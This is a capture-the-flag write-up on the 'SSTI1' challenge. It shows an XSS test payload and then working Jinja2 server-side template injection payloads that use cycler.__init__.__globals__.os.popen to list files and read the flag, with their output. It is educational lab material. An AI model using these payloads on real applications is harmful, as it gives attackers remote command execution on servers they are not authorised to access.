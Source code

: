 # 🧪 SSTI1

## 🔍 Observations

- A single input box was present.
- A warning label indicated that announcements are only shown to individual users.
- Initially suspected the input box might be vulnerable.

---

## 🧠 Thought Process

- First attempted a basic XSS payload:
  ```html
  <script>
    alert("hello");
  </script>
  ```
  Nothing happened — this led me to believe it might be a different type of vulnerability.
- Unsure how to proceed, I checked the **hint**, which mentioned:

  > _"Server Side Template Injection"_

- I hadn’t encountered SSTI before, so I began researching:  
  📚 [PortSwigger: SSTI Guide](https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack)

- I learned that SSTI occurs when user input is **evaluated inside server-side templates** without proper sanitization. This sounded familiar — I had seen templating behavior like this before but didn’t know it had a specific name.

- Using that article, I successfully identified the vulnerability in the challenge.
  Each test input helped narrow down which templating engine was being used — confirming that the app was vulnerable to Jinja2-based SSTI.
  ![Template Identification](./images/image.png)  
   _(Image from PortSwigger’s guide)_

- The input field was using **Jinja2** (a Python templating engine), and the server was rendering the input directly — without sanitization.

---

## 🧨 Exploitation

- Since SSTI was new to me, I kept reading — the most helpful resource was:  
  💡 [OnSecurity: Server-Side Template Injection with Jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

- This guide explained how Jinja2 exposes core functions like `__globals__`, and how unsanitized input can let an attacker access Python’s built-in modules.

- In Python, the `os` module is often available by default, so if accessible through the template, it can be used to run system commands.

### 🔧 Payloads Used:

1. **List files in the current directory:**

   ```jinja2
   {{ cycler.__init__.__globals__.os.popen("ls").read() }}
   ```

   Output:

   ```
   __pycache__  app.py  flag  requirements.txt
   ```

2. **Read the flag file:**
   ```jinja2
   {{ cycler.__init__.__globals__.os.popen("cat flag").read() }}
   ```

✅ This returned the flag and completed the challenge.

---

## 📝 What I Learned

- **SSTI (Server-Side Template Injection)**
  - What it is and how it works.
  - How to identify templating behavior that may be vulnerable.
  - The dangers of rendering unsanitized input in server-side templates.
  - Techniques for exploiting Jinja2-based SSTI vulnerabilities using Python internals.
